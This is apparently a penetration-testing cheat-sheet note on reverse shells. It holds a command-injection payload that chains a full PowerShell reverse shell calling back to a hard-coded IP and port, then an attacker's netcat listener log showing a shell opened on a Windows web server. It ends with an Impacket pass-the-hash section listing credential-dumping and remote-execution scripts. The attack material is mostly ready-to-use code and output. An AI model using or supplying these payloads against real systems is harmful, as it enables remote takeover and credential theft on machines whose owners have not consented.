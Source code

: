 ## Reverse Shell
### WebApp Command Injection
https://www.revshells.com/
Windows平台上，可利用PowerShell

RCE:
```cmd!
test && powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('159.89.115.68',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Attacker:
```bash!
┌──(root💀kali)-[~]
└─# rlwrap -cAr nc -lvnp 1337                                                 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 40.76.51.149.
Ncat: Connection from 40.76.51.149:53793.
whoami
digiserver2\digiserver2
PS C:\WebApp\MyStore.WebUI\App_Data>
```

### PSEXEC
Use [IMPACKET](https://github.com/SecureAuthCorp/impacket) - PTH Attack
```bash!
┌──(root㉿kali)-[~]
└─# cd /usr/share/doc/python3-impacket/examples/

┌──(root㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─# ls
Get-GPPPassword.py  findDelegation.py  machine_role.py       ping6.py          samrdump.py     split.py
GetADUsers.py       getArch.py         mimikatz.py           psexec.py         secretsdump.py  ticketConverter.py
GetNPUsers.py       getPac.py          mqtt_check.py         raiseChild.py     services.py     ticketer.py
GetUserSPNs.py      getST.py           mssqlclient.py        rbcd.py           smbclient.py    wmiexec.py
addcomputer.py      getTGT.py          mssqlinstance.py      rdp_check.py      smbexec.py      wmipersist.py
atexec.py           goldenPac.py       netview.py            reg.py            smbpasswd.py    wmiquery.py
dcomexec.py         karmaSMB.py        nmapAnswerMachine.py  registry-read.py  smbrelayx.py
dpapi.py            keylistattack.py   ntfs-read.py          rpcdump.py        smbserver.py
esentutl.py         kintercept.py      ntlmrelayx.py         rpcmap.py         sniff.py
exchanger.py        lookupsid.py       ping.py               sambaPipe.py      sniffer.py
```
